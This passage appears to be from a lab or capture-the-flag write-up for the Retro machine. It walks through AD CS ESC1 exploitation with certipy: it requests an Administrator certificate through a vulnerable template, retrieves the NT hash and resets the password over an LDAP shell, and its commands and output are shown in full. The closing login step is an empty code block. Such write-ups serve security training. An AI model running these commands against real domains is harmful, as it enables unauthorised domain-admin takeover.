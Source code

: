 ESC1 means that Domain Computers (like `BANKING$`) can be leveraged to gain Domain admin via `certipy`.
`certipy` uses the following parameters:
* `req`: request authentication
* `-k`: use the `ccache` file
* `-ca`: Enter the Certificate Authority here
* `-template`: Enter the vulnerable Certificate Template here
* `-target`: Target hostname of Certificate authority
* `-upn`: Target user to impersonate
* `-key-size`: Otherwise we get the error `CERTSRV_E_KEY_LENGTH`


```bash
certipy req -k -ca retro-DC-CA -k -template RetroClients -upn Administrator@retro.vl -target dc.retro.vl -key-size 4096
```

If we get the error `[-] Got error: The NETBIOS connection with the remote host timed out.` → just try again.

```bash
certipy req -k -ca retro-DC-CA -k -template RetroClients -upn Administrator@retro.vl -target dc.retro.vl -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'Administrator@retro.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Now this certificate and private key can be traded into an admin hash:
```bash
certipy auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:********************************
echo -n ******************************** > hash
```
*Note:* Sometimes the command errors with `KDC_ERR_PADATA_TYPE_NOSUPP`.
A [Blog post](https://www.thehacker.recipes/ad/movement/schannel/passthecert) from `The Hacker Ricipes` explains it nicely.
The gist of it is that the Domain controller does not support `PKINIT`, so we have to do it with `-ldap-shell`:

```
certipy auth -pfx administrator.pfx -dc-ip $(<ips.txt) -ldap-shell
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.10.81.124:636'
[*] Authenticated to '10.10.81.124' as: u:RETRO\Administrator
Type help for list of commands

# change_password Administrator password1234$
Got User DN: CN=Administrator,CN=Users,DC=retro,DC=vl
Attempting to set new password of: password1234$
Password changed successfully!
```
Then we just login with:
```bash
```